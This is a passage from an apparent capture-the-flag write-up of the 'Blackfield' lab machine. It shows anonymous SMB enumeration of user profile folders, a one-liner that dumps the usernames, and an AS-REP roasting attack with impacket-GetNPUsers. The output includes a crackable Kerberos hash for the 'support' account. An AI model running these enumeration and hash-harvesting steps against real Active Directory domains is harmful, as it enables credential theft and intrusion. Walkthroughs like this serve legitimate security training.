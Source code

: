 ```bash
  ZTimofeeff                          D        0  Wed Jun  3 12:47:12 2020
  ZWausik                             D        0  Wed Jun  3 12:47:12 2020

                5102079 blocks of size 4096. 1691612 blocks available
smb: \> 
```

Folder with usernames! While we could explore the folders one by one, let's dump all the usernames first and see if there is a faster way to get access. 

Given we are a bit lazy, we did a quick and dirty regex to dump the usernames to a file.

```bash
$ smbclient -N \\\\10.129.140.139\\profiles$ -c dir | sed \$d | grep -oE '([a-zA-Z0-9]{5,})' > users.txt
```

Now, we should have all our usernames in the **users.txt** file.

# Initial Access

With the previously generated user list, we could try to do some brute force or password spraying attacks. However, it could be time consuming and we don’t have any information about the domain’s password policy and lockout threshold. Let’s stay on the safe side for now and try an [ASREPRoast](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat) attack.

## ASREPRoast

As a reminder, AS-REP roasting is a technique that allows retrieving password hashes for users that have the **Do not require Kerberos preauthentication** property selected. It means that we can recover a hash which can be cracked offline.

One of the best tools for the job would be [impacket-GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py), which should already be installed on Kali.

```bash
$ impacket-GetNPUsers blackfield.local/ -usersfile users.txt -dc-ip 10.129.140.139
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

...[snip]...

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$support@BLACKFIELD.LOCAL:eab3cec4ef7550d9f7336270ab461115$51de4e1de9d432eb82a3fd26eeacfe2ea6809dc28d91eeac0b3772e99241f3834a1e8c5ec98ec13f04546176ddac6835f1e113441df5c8d1fb6e62c4446477a543471ca5062eb4c6d63e6047f43ac695d71fd7e2b7c98d0b26dbb2b49ca792dd28a11ef7a3a158a75a042e78f5116282ccfbc0087293a0aedc9ea2b38299614d1671546f228a92c2c8456af9b2cf485f5a36f0b74c92bbea557f3136072403345e804e21631a7bc0f9f3e657eaada6b37da2275d2ced68779d4978aacbc0fd6520fe8a386763b10c07c4e1b799f0ba338c98bfc7c719b1f2ae3d55e5663a47698fb3df8e3c764dfd03045d3abdd4f215c3d17db0
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set

...[snip]...

```
